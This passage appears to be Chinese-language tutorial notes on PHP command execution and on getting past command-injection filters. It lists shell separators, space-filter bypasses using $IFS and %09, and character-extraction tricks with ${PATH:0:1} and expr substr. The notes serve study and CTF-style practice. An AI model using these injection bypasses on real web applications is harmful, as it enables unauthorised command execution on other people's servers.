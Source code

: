 <?php
highlight_file(__FILE__);
$a = 'pwd';
echo `$a`;
?>

#### ob_start

ob_start:打开输出控制缓冲

demo：

<?php
highlight_file(__FILE__);
ob_start("system");
echo "whoami";
ob_end_flush();
?>

### 绕过

#### 常见分隔符

•换行符 %0a
•回车符 %0d
•连续指令 ；
•后台进程 &
•管道符 |
•逻辑 || &&

#### 绕过空格

•$IFS
•<
•${IFS}
•$IFS$9
•%09

#### 各类符号

即使用”substr string pos len“的方法进行取字符

demo：

echo "${PATH:0:1}"
echo "`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`"
echo `$(expr${IFS}substr${IFS}$PWD${IFS}1${IFS}1)`
expr${IFS}substr${IFS}$SESSION_MANAGER${IFS}6${IFS}1
•%0a
•%0d
•%00
•%20

#### 敏感字符绕过
